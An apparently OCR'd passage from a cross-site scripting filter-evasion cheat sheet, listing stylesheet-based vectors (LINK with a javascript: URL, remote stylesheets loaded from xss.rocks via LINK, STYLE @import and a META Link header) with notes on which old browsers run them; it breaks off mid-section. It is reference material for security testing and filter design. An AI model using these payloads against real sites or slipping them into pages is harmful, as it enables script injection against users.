 ## STYLE sheet

<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

## Remote style sheet

(using something as simple as a remote style sheet you can include your
XSS as the style parameter can be redefined using an embedded
expression.) This only works in IE and Netscape 8.1+ in IE rendering
engine mode. Notice that there is nothing on the page to show that there
is included JavaScript. Note: With all of these remote style sheet
examples they use the body tag, so it won't work unless there is some
content on the page other than the vector itself, so you'll need to add
a single letter to the page to make it work if it's an otherwise blank
page:

`<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">`

## Remote style sheet part 2

This works the same as above, but uses a

<STYLE>

tag instead of a <LINK> tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end

</STYLE>

tag if there is HTML immediately after the vector to close it. This is
useful if you cannot have either an equals sign or a slash in your cross
site scripting attack, which has come up at least once in the real
world:

`<STYLE>@import'http://xss.rocks/xss.css';</STYLE>`

## Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky.
According to RFC2616 setting a link header is not part of the HTTP1.1
spec, however some browsers still allow it (like Firefox and Opera). The
trick here is that I am setting a header (which is basically no
different than in the HTTP header saying Link:
\<http://xss.rocks/xss.css\>; REL=stylesheet) and the remote style sheet
with my cross site scripting vector is running the JavaScript, which is
not supported in FireFox:

`<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">`

## Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL
file to the parent page. I think the irony here is that Netscape assumes
that Gecko is safer and therefor is vulnerable to this for the vast
majority of sites:
